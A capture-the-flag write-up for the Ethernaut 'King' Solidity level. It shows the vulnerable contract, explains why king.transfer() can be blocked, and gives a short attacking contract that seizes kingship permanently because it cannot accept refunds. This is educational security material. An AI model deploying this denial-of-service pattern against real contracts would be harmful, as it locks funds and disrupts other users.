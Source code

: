 +++
title = "King - Ethernaut"
date = "2022-01-07"
author = "Dimitris Vagiakakos"
+++
We have a smart contract game called Kings. This contract is a classic example of a ponzi scheme. 
Whoever sends an amount of ether that is more than the current prize becomes the new king. On such an event, the overthrown king gets paid the new prize, making a bit of ether in the process.

```
// SPDX-License-Identifier: MIT
pragma solidity ^0.6.0;

contract King {

  address payable king;
  uint public prize;
  address payable public owner;

  constructor() public payable {
    owner = msg.sender;  
    king = msg.sender;
    prize = msg.value;
  }

  receive() external payable {
    require(msg.value >= prize || msg.sender == owner);
    king.transfer(msg.value);
    king = msg.sender;
    prize = msg.value;
  }

  function _king() public view returns (address payable) {
    return king;
  }
}
```

It should be mentioned here that when we will try to submit King.sol instance back to level, Ethernaut will call the fallback function to regain Kingship. As we can understand, we have to find a way to guarantee that all Ethernaut's transactions will fail, so we can remain as a King. Let's check the code into fallback function:
```
receive() external payable {
    require(msg.value >= prize || msg.sender == owner);
    king.transfer(msg.value);
    king = msg.sender;
    prize = msg.value;
  }
 ```
 
 The fallback is an external payable and has as a requirement to be called that the sender sends a higher amount of ether than it is the current price and the msg.sender to be the owner. Then, all of the sended ether is transfered to king and we become the king and our value of ether is sets us the current prize. They key here is the "king.transfer()" method which can fail if the current king is a malicious contract and refuses to withdraw.
There are multiple ways for transactions to fail, but most of the time we have these 3 options:
* Out Of Gas Errors: The receiving contract has a malicious payable function that consumes a large amount of gas, which fails the transaction or over-consumes the gas limit. However cannot make the internal call here as there is not really something we can control.
* Arbitrary Error from FallBack Function. If our transaction ends up executing code from a contract that can always fail.
* Transact with Contract with no fallback function or a non payable fallback function. When a transaction is made towards a contract address without including any data the fallback function of that contract is called. If a contract does not have a fallback function, it will fail. Also, It will fall if  we send some ether in a transaction without a payable modifier in the fallback.
* So, we can create a contract with a function that will send ether to the original contract, however without a fallback function so that the king contract cannot send money back.
We create and deploy a malicious smart contract with at least 1 Ether on it.
 
```
// SPDX-License-Identifier: MIT

pragma solidity ^0.8.10;

contract KingAttack {

  function doYourThing(address _target) public payable {
    (bool result,) = _target.call{value:msg.value}("");
    if(!result) revert("MyBad");
  }

  
}
```

This script has a payable function which will send an ether to the contract. As the original smart contract has a payable external fallback function, but it has requirements in order to be executed, it will fail as it will can't handle the 1 ether that we sent it from the attacking contract. As a result, we will become the king forever.

---
If you want to learn more about Smart Contract Security, please check our paper and eCourses:
## Smart-Contract Security:

* [Smart Contract Security - Educational eLearning Series in Greek on YouTube - Click Here](https://www.youtube.com/playlist?list=PLZa7COjIxKWzLcMxI9cRNSzOtdR0xvXB7)


* [Smart Contract Security - Educational eLearning Series in Greek on LBRY - Click Here](https://odysee.com/@TuxHouse:1/Ethereum-Hacking-Series-%28Greek%29:b?r=D1QgYeP81GoKPkW5T1jP96zxGA4GMfho&lid=b0b540e62d96ed2811b776519fc460617e4c40747)
